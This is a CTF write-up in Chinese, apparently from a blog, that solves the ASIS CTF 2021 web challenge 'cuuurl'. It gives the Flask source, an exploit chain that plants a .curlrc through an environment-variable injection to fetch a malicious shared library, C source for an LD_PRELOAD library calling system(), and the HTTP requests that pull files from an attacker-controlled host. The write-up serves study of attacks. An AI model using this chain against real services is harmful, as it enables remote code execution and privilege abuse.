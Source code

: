 ```yaml
---
title: ASIS CTF 2021
date: 2021-12-30 10:58:00
tags: ASIS CTF
category: Writeup
---
```


## Web

### cuuurl

```
Do you know how to pronounce "curl"?
Download source code from here.
```

核心代码：

```python
@app.route('/')
def index(): #Poor coding skills :( can't even get process output properly
	url = request.args.get('url') or "http://localhost:8000/sayhi"
	env = request.args.get('env') or None
	outputFilename = request.args.get('file') or "myregrets.txt"
	outputFolder = f"./outputs/{hashlib.md5(request.remote_addr.encode()).hexdigest()}"
	result = ""

	if(env):
		env = env.split("=")
		env = {env[0]:env[1]}
	else:
		env = {}

	# print("env: ", env)

	master, slave = pty.openpty()
	os.set_blocking(master,False)
	try:
		subprocess.run(["/usr/bin/curl","--url",url],stdin=slave,stdout=slave,env=env,timeout=3,)
		result = os.read(master,0x4000)
	except Exception as e:
		os.close(slave)
		os.close(master)
		report = str(e)
		report += "\nurl: " + url + "\nenv: " + str(env) + "\noutputFilename: " + outputFilename
		return report,200,{'content-type':'text/plain;charset=utf-8'}

	os.close(slave)
	os.close(master)

	if(not os.path.exists(outputFolder)):
		os.mkdir(outputFolder)

	if("/" in outputFilename):
		outputFilename = secrets.token_urlsafe(0x10)

	with open(f"{outputFolder}/{outputFilename}","wb") as f:
		f.write(result)

	return redirect(f"/view?file={outputFilename}", code=302)
```

题目业务逻辑为：

-   使用curl命令访问任意url并写入内容到指定目录的任意命名的文件下，同时可以配置环境变量env
-   通过/view下传参文件名，访问文件内容

一开始尝试file://协议读取flag，发现没有权限，但是给了一个binary文件可以读取flag

```dockerfile
RUN chmod 400 /flag.txt
RUN chmod 111 /readflag
RUN chmod +s /readflag
```

因此思路是想办法执行根目录下readflag文件，得到flag

因为文件名可以任意写，且目录已知，通过curl官方文档 [curl - How To Use](https://curl.se/docs/manpage.html#CURLHOME) 可以得知curl会首先寻找HOME环境变量目录下的.curlrc文件作为配置文件，在.curlrc文件中可以任意添加curl的参数。而env环境变量可以通过请求指定，确保能够访问到.curlrc文件。

所以可以写个.so文件然后通过env变量LD_PRELOAD执行.so文件，进而执行readfile。.curlrc文件如下：

```
--output /tmp/test.so
```

test.c：

```c
#include <stdio.h>
#include <string.h>
#include <sys/types.h>
#include <stdlib.h>

void _init() {
    unsetenv("LD_PRELOAD");
    system("/readflag");
}
```

编译成.so文件：

```bash
gcc -fPIC -shared -o test.so test.c -nostartfiles
```

最后调整GET请求参数就可以拿下flag了~

```http
GET /?url=http://IP/curlrc.txt&env=&file=.curlrc HTTP/1.1
GET /?url=http://IP/test.so&env=HOME=/app/outputs/DIRECTORY&file= HTTP/1.1 // 发送这个请求的时候服务器会返回报错，但是实际上已经执行成功了。调试发现具体报错为：[Errno 11] Resource temporarily unavailable，但并没有找到很好的解释为什么会报这个错误
GET /?url=http://IP/&env=LD_PRELOAD=/tmp/test.so&file= HTTP/1.1
GET /view?file=myregrets.txt HTTP/1.1
```




